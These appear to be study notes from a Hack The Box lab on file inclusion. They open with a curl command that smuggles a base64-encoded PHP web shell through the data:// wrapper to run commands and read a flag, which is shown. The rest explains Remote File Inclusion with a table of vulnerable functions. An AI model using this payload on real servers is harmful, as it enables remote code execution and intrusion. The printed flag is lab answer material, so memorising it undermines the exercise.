 ```bash
curl -s 'http://134.209.22.69:31567/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=cat%20%2F37809e2f8952f06139011994726d9ef1.txt' |grep HTB

            **HTB{d!$46l3_r3m0t3_url_!nclud3}**
```

---

# **Remote File Inclusion (RFI)**

**`we should always start by trying to include a local URL`**

<aside>
💡 When a vulnerable function allows us to include remote files, we may be able to host a malicious script, and then include it in the vulnerable page to execute malicious functions and gain remote code execution. If we refer to the table on the first section, we see that the following are some of the functions that (if vulnerable) would allow RFI:

| Function | Read Content | Execute | Remote URL |
| --- | --- | --- | --- |
| PHP |  |  |  |
| include()/include_once() | ✅ | ✅ | ✅ |
| require()/require_once() | ✅ | ✅ | ❌ |
| file_get_contents() | ✅ | ❌ | ✅ |
| fopen()/file() | ✅ | ❌ | ❌ |
| NodeJS |  |  |  |
| fs.readFile() | ✅ | ❌ | ❌ |
| fs.sendFile() | ✅ | ❌ | ❌ |
| res.render() | ✅ | ✅ | ❌ |
| Java |  |  |  |
| include | ✅ | ❌ | ❌ |
| import | ✅ | ✅ | ✅ |
| .NET |  |  |  |
| @Html.Partial() | ✅ | ❌ | ❌ |
| @Html.RemotePartial() | ✅ | ❌ | ✅ |
| Response.WriteFile() | ✅ | ❌ | ❌ |
| include | ✅ | ✅ | ✅ |
</aside>

> As we can see, almost any RFI vulnerability is also an LFI vulnerability, as any function that allows including remote URLs usually also allows including local ones. However, an LFI may not necessarily be an RFI. This is primarily because of three reasons:
> 
> 1. The vulnerable function may not allow including remote URLs
> 2. You may only control a portion of the filename and not the entire protocol wrapper (ex: `http://`, `ftp://`, `https://`).
> 3. The configuration may prevent RFI altogether, as most modern web servers disable including remote files by default.
